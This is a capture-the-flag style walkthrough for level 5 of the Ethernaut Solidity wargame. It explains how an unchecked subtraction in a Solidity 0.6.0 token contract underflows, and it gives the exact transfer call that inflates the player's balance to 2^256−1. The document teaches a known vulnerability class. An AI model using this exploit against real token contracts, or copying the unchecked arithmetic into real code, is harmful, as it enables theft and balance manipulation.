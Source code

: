 # Level 5: Token

This is the level 5 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Integer [overflow/underflow](https://docs.soliditylang.org/en/v0.6.0/security-considerations.html#two-s-complement-underflows-overflows) in Solidity `v0.6.0`

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

`player` is initially assigned 20 tokens i.e. `balances[player] = 20` and has to somehow get any additional tokens (so that `balances[player] > 20` ).

The `transfer` method of `Token` performs some unchecked arithmetic operations on `uint256` (`uint` is shorthand for `uint256` in solidity) integers. That is prone to underflow.

The max value of a 256 bit unsigned integer can represent is `2^256 − 1`, which is - 

```
115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457,584,007,913,129,639,935
```

Hence `uint256` can only comprise values from `0` to `2^256 - 1` only. Any addition/subtraction would cause overflow/underflow. For example:
```
Let M = 2^256 - 1 (max value of uint256)

0 - 1 = M

M + 1 = 0

20 - 21 = M

(All numbers are 256-bit unsigned integers)
```

We're going to use last expression from example above to exploit the contract.

Let's call `transfer` with a zero address (or any address other than `player`) as `_to` and 21 as `_value` to transfer.

```javascript
await contract.transfer('0x0000000000000000000000000000000000000000', 21)
```

Here's how arithmetics of function would go:

The `require` check below would evaluate to true.
```
require(balances[msg.sender] - _value >= 0);
```

Because `balances[msg.sender] = 20` and `_value = 21`, hence
```
balances[msg.sender] - _value = 2^256 - 1 >= 0
```
due to underflow.

Next statement deducts `_value` amount from `player` address. At this point `balances[msg.sender] = 20` and `_value = 21`. Again an underflow:
```
balances[msg.sender] -= _value;
```
is same as
```
balances[msg.sender] = balances[msg.sender] - _value;
```

And so,
```
balances[msg.sender] = 20 - 21 = 2^256 - 1
```

Whoa! now the `player` (or `msg.sender`) has  `balances[msg.sender]` = `2^256 - 1` number of tokens!!!

Last statement just sets balance of a zero address to `_value` i.e. 21, which we couldn't care less about.

And that's it! `player` has acquired humongous no. of tokens, even way way way more than `totalSupply`. Verify by:
```javascript
await contract.balanceOf(player).then(v => v.toString())
// Output: '115792089237316195423570985008687907853269984665640564039457584007913129639935'
```

A nice thing to note is that it worked because contract's compiler version is `v0.6.0`. This, most probably, **won't work for latest version** (`v0.8.0` as of writing) because underflow/overflow causes failing assertion by default in latest version.


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

